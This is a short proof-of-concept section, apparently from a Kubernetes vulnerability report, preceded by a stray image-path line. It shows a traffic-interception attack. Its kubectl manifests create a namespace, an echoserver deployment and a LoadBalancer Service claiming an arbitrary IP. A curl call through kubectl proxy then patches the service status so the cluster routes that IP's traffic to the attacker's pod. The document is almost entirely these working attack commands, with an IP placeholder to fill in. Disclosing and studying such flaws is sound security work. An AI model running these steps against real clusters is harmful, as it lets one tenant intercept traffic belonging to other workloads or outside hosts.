 ## POC

First create the target MITM pod
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: kubeproxy-mitm
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: kubeproxy-mitm
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

Then to perform the MITM using LoadBalancer, just replace `<IP>` with the IP you want to MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-lb
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
  loadBalancerIP: <IP>
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/kubeproxy-mitm/services/mitm-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"<IP>"}]}}}'
kill $!
```
